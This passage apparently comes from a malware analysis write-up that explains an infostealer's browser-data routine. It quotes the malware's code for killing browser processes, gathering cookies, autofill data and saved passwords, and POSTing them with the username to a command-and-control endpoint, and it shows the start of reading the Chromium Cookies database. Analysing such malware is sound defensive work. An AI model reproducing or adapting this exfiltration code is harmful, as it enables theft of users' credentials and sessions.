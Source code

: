#### allBrowserData

The final call from the main block is to `allBrowserData`, which starts
by trying to kill any browser processes:



            await kill([
                'chrome', 'msedge', 'brave', 'firefox', 'opera', 'kometa', 'orbitum', 'centbrowser', '7star', 'sputnik', 'vivaldi',
                'epicprivacybrowser', 'uran', 'yandex', 'iridium'
             ]);



Then it calls three functions asynchronously:



            const promises = await Promise.allSettled([
                getBrowserCookies(),
                getBrowserAutofills(),
                getBrowserPasswords()
            ]);



Then it exfils the results:



            await fetch(options.api + 'browsers-data', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    duvet_user: options?.user_id,
                    computer_name: userInfo()?.username,
                    data: {
                        cookies: promisses?.[0]?.value?.cookies_list,
                        autofills: promisses?.[1]?.value,
                        passwords: promisses?.[2]?.value
                    }
                })
            });



#### Browser Cookies

`getBrowserCookies` gets a list of paths from the C2 and loops over
them. If "firefox" is in the path, it calls `getFirefoxCookies(path)`,
and otherwise `browserCookies(path)`.

In `browserCookies`, it looks for a `Cookies` file and opens it as a
SQLite DB:



                    const database = new Database(join(path, 'Network', 'Cookies'));
                    if(!database) return;
